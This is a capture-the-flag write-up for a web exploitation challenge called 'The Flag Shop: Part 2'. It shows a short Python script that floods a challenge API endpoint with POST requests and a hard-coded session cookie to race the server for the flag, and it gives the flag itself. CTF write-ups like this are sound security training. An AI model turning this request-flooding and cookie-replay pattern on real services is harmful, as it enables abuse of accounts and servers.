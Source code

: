 ## The Flag Shop: Part 2 - 100 (Web Exploitation) ##

#### Write-up by Oksisane


### Problem ###

A bit harder. http://flagshop2.problem.sctf.io

### Hint ###
Time is precious. Never waste it.

## Answer ##

### Overview ###

Spam requests to `/api/flag` and refresh the account page.

### Details ###

Looking at the source of flagshop2, the only change is this new code
```js
$.post("/api/flag", function() {
	display_message("#unlock_msg", "success", "done.");
});
```
Looks like the `/api/flag/unlock` and `/api/flag/delete` are done server side now. We need a way to beat the server to the flag! The way I did it is by spamming requests to `/api/flag` using Python. Here's the source:
```python
import requests,time

flagurl = "http://flagshop2.problem.sctf.io/api/flag/"
payload = ""
headers = {
    'cookie': "sid=s%3Arygx5swsocb5g3gylg3qhh7gk.exfuOQEV4ou6S%2Fb2QppzLiYukQWHqfFGHwVtuS7wDdM; email=s%3Aehsan%40blah.com.s2ROHWeVypYBnyikyx7aWY4ShzelKWs65JUMvzGsBzk"
 }

def requestFlag():
    response = requests.request("POST", flagurl, data=payload, headers=headers)
    print response.text\

while True:
    requestFlag()
    #sleep .1 to be nice :)
    time.sleep(.1)
```

The cookie header is used so the site still knows who we are logged in as. Running the script and refreshing the page a few times gives the flag.

### Flag ###

	flag{4f8703d93bdb7b46615e498d}
